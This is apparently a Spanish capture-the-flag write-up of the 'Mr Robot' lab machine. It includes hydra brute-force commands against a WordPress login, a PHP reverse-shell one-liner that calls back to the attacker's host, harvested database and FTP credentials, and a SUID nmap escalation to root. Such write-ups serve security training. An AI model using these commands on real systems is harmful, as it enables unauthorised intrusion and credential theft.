# Mr Robot CTF



Si intentamos acceder a 10.10.252.76:443 obtenemos



Si buscamos con https://10.10.252.76:443 accedemos a la web correcta



/robots y /robots.txt (iguales)



- key-1-of-3.txt es el primer flag
- fosicity.dic es un diccionario parece de palabras o usuarios



**Wordpress 4.3.1**

Vamos a intentar enumerar usuarios del wordpress -> El exploit por msfconsole no detecta el wordpress, sin embargo haciendo
`wpscan --url 10.10.252.76`
Detecta el wordpress, nos da la versión

Intentamos detectar usuarios con
`wpscan --url 10.10.252.76 --enumerate u`
- No detecta ningún uer xd

--> CAMBIO IP -> 10.10.18.169
Vamos a probar a hacer hydra para conseguir enumerar algun usuario en el login de wordpress, se usará el fsocity como diccionario de users.
`curl -X GET http://10.10.18.169/fsocity.dic > fsocity.dic` -> Para descargar el archivo
Hydra
`hydra -L fsocity.dic -p 123 10.10.18.169 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.18.169%2Fwp-admin%2F&testcookie=1:F=Invalid username." -V -f`



**Elliot**



Intentamos buscar una contraseña ahora para el usuario Elliot
Ordenamos y eliminamos duplicados del fsocity.dic
`sort -u fsocity.dic > fsocity_uniq.dic`
Nos quitaremos muchos registros
Aplicamos fuerza bruta
`hydra -l Elliot -P fsocity_uniq.dic 10.10.18.169 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username" -V -f -t 30`
- No hará falta pasarle la request entera, solo con la parte de credenciales *log* y *psw* el navegador tiene la info para autenticarse en wordpress
**ER28-0652**

Estas credenciales se podían ver en  /license xd



ZWxsaW90OkVSMjgtMDY1Mgo=



**elliot:ER28-0652**

En add plugins subimos un arhivo sh3ll.php (se ha probado con .php5 pero no interpretaba el código) con el contenido:
`<?php exec("bash -c 'bash -i >&/dev/tcp/10.8.63.150/4444 0>&1'"); ?>`
En el apartado media, pinchamos en el archivo para ver su URL, la ponemos en el navegador y accedemos con nc al sitio
**daemon**

## Escalada

/opt/bitnami/apps/wordpress/htdocs/wp-config.php



bitnami_wordpress
bn_wordpress:3306:
570fd42948
localhost:3306

Si bajamos vemos posibles credenciales de ftp



ftpext
bitnamiftp
inevoL7eAlBeD2b5WszPbZ2gJ971tJZtP0j86NYPyh6Wfz1x8a

En /home/robot, encontramos dos archivos
- password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
- key-2-of-3.txt -> solo lo puede leer el user robot

Intentamos descifrar el hash con hashcat





Mientras probamos con crackstation.net



**robot:abcdefghijklmnopqrstuvwxyz**
**robot**

En robot de momento no hemos encontrado nada a parte de la segunda flag

Para acceder a mysql tenemos que entrar con el user daemon, no vale con robot
`mysql -h localhost -u bn_wordpress -p`
- el puerto da igual aunque podríamos setearlo con `-P 3307` (mayúscula) → puerto TCP.



**user:pass:activation_key**
mich05654:$P$BpmKcWWjgC3/UGtj/fO36PsCxYC2E51:$P$BWTsdrJ59enQqyf.GRSxn2U8fm6Fzo.
elliot:$P$BHh01ohuhaRcy2EAC6ad//vTQ1eMwe.:$P$BjoxqXXZO5Ip25o40/GB.y0x9100Je0

Permiso sospechoso ejecutado por root:
`php-fpm: master process (/opt/bitnami/php/etc/php-fpm.conf)
- NADA

Revisando los
`find / -perm -4000 2>/dev/null`
encontramos -> nmap
`nmap --interactive`
`!sh`
**root**
